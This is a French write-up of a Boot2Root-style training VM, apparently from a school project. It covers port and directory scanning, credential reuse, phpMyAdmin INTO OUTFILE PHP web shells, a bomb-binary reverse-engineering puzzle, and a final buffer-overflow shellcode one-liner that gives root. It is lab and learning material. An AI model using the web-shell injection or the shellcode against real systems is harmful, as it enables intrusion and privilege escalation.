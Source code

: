 # Writeup1

Prenons pour exemple que l'ip de la machine est 10.11.200.204.

### Get open port

Pour récupérer l'ip de la machine il faut lancer le script `./ip_machine [VM_name]`.<br>
Grâce à nmap:  `nmap  $(./ip_machine [VM_name])` nous pouvons voir les ports ouverts:

```
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```

### Installe DIRB and Get Info

Il faut installer toutes les dépendances avec notre script `./setup`.<br>
Puis nous pouvons faire.<br>
`dirb  https://$(./ip_machine [VM_name]) ./small.txt -w`.<br>
Du coup nous pouvons voir les accès intéressant:<br>

- `/forum`
- `/webmail`
- `/phpmyadmin`

`https://10.11.200.204/forum`:

Dans le forum, nous avons un post qui demande de l'aide sur sa connexion ssh, avec un mot de passe visible (à la place de l'utilisateur).<br>
L'auteur du message est : `lmezard`, et le mot de passe utilisé est : `!q\]Ej?*5K5cy*AJ`.<br>
Grâce à ces informations, nous pouvons utiliser ces logins pour ce connecter sur le forum, et voir son mail qui est: laurie@borntosec.net<br>
`https://10.11.200.204/webmail`:<br>
Grâce au mail, nous pouvons se connecter sur le webmail avec `laurie@borntosec.net` et `!q\]Ej?*5K5cy*AJ`.<br>
Nous pouvons voir un mail qui contient les identifiants BDD : `root` et `Fg-'kKXBj87E:aJ$`.

### Exploit PHPMyAdmin

`https://10.11.200.204/phpmyadmin`:<br>
Avec ces identifiants, nous pouvons nous connecter sur `PHPMYADMIN`.<br>
Après plusieurs recherche sur les différentes failles de sécurité de `PHPMYADMIN` nous avons pu trouver cet article: `http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2`.<br>
Apres plusieurs tests:<br>
`select "<?php $out = shell_exec('ls -la /'); echo '<pre>' . $out . '</pre>'; ?>" into outfile "/var/www/forum/templates_c/ls.php";`.<br>
On peut voir le résultat ici : https://10.11.200.204/forum/templates_c/ls.php.<br>
`select "<?php $out = shell_exec('ls -laR /home'); echo '<pre>' . $out . '</pre>'; ?>" into outfile "/var/www/forum/templates_c/home.php";`.<br>
On peut voir le résultat ici : https://10.11.200.204/forum/templates_c/home.php.<br>
Nous avons pu voir un fichier password dans `/home/LOOKATME`, nous allons pouvoir voir son contenu.<br>
`select "<?php $out = shell_exec('cat /home/LOOKATME/password'); echo '<pre>' . $out . '</pre>'; ?>" into outfile "/var/www/forum/templates_c/password.php";`.<br>
On peut voir le résultat ici : https://10.11.200.204/forum/templates_c/password.php.<br>
Ce qui donne comme résultat:  `lmezard:G!@M6f4Eatau{sF"`.

### Connection FTP

Nous pouvons maintenant ce connecter en `ftp` avec ces identifiants.<br>
`ftp $(./ip_machine [VM_name])` et mettre les identifiants.<br>
Nous pouvons voir 2 fichiers `README` et `fun`.

### Crack fun :D

Nous allons pouvoir récupérer le fichier `fun`: `get fun`.<br>
Lancer la commande `tar xf fun`.<br>
Maintenant nous pouvons lancer la commande `node crackFun ft_fun`.

### Connection to SSH 

user : `laurie`
mdp: `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

### Install PEDA

`scp -r ${HOME}/goinfre/peda laurie@$(./ip_machine [VM_name]):/home/laurie`
`echo "source ~/peda/peda.py" >> ~/.gdbinit`

## Exploit Bomb

`open ~/goinfre/ghidra_9.1-BETA_DEV`

### STEP 1
On peut voir qu'il fait une comparaison entre l'entrée utilisateur et une chaine de caractères en dur.
![Phase 1](./ress/phase_1.png)<br>
`Public speaking is very easy.`<br>
### STEP 2
On peut voir que 6 arguments sont attendus et que le premier argument est `1` puis l'argument est multiplié par son emplacement.<br>
Le premier argument est à l'emplacement 2.<br>
![Phase 2](./ress/phase_2.png)<br>
Reste à faire le calcul, ce qui donne:<br>
`1 2 6 24 120 720`<br>
### STEP 3
On peut voir que la solution ressemble à `%d %c %d` soit: nombre, caractère, nombre.<br>
![Phase 3](./ress/phase_3.png)<br>
En utilisant ghidra, nous pouvons voir, que le premier argument est situé entre `0 et 7`.<br>
que si le premier vaut 1 le char est b, et le dernier argument doit-être égal à `214`.
soit:<br>
`1 b 214`<br>
![Phase 3](./ress/phase_3_2.png)

### STEP 4
D'après cette fonction, on peut déterminer que `param_1` doit valoir **`9`**.<br>
![Phase 3](./ress/phase_4.png)<br>
On peut trouver ce résultat grâce à la fonction présentée dans "_ressources/writup1/phase_4.c_".<br>
Il est à noter que c'est la seule étape pour laquelle le nombre d'arguments n'est pas vérifié.<br>
En entrant non pas `9`, mais `9 austinpowers`, une phase secrete apparaitra après la phase 6.<br>

### STEP 5
La chaine attendue est une chaine de 6 caractères dont le premier est un 'o'.<br>
Un ET logique est effectue sur chaque caractere pour obtenir l'index entre 0 et 15 d'un element d'une table de comparaison.<br>
Ce qui permet d'obtenir un grand nombre de combinaisons.<br>

```
opekmq opekma opekmQ opekmA opekm1 o`ekma
```
<br>
La bonne combinaison est la premiere possibilite en utilisant une base alphanumerique commencant par les minuscules.
soit:

`opekmq`

### STEP 6

6 chiffres sont attendus allant de 1 à 6 sans doublons. Le premiers chiffre est 4.<br>
`4 2 6 3 1 5`<br>

### SECRET STEP

En ayant entré `9 austinpowers` lors de la phase 4, une étape secrète apparait ici.<br>
Un seul nombre est attendu ici, ce nombre doit être supérieur à 1000.<br>
Il s'agit de `1001` (0b1001 == 9).<br>
voilà voilà...<br>

## CONNECTION TO THOR

En concatenant les mots de passe précedent (sans espaces), nous obtenons le mot de passe:<br>
```Publicspeakingisveryeasy.126241207201b2149opekmq426315```<br>
Sur le forum, est dit d'inverser les lettres 'v' et 'w' qui sont les dernieres lettres de l'alphabet -2 et -3<br>
Ce qui donne le mot de passe final: <br>
```Publicspeakingisveryeasy.126241207201b2149opekmq426135```<br>

## CONNECTION TO ZAZ

Dans la home de thor se trouve un fichier "turtle".<br>
Ce fichier peut être séparé en 5 parties selon les lignes vides.<br>
Ces correspondent correspondent aux instructions d'un programme turtle reproduit dans resolve_turtle.py.<br>
En éxécutant chaque série d'instructions, on obtient le mot de passe `SLASH`. Qui ne fonctionne pas.<br>
En revanche le md5 de "SLASH" fonctionne: `646da671ca01bb5d84dbb5fb2238dc8e`.

## SESSION DE ZAZ

Dans la session de zaz se trouve un exécutable root `exploit_me`.
Il suffit de faire une attaque par buffer overflow.<br>
`./exploit_me $(python -c 'print "\x90" * 80 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "\x90\xf8\xff\xbf" * 10')`

# WE ARE ROOT

```
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```
![ROOT](./ress/root.gif)
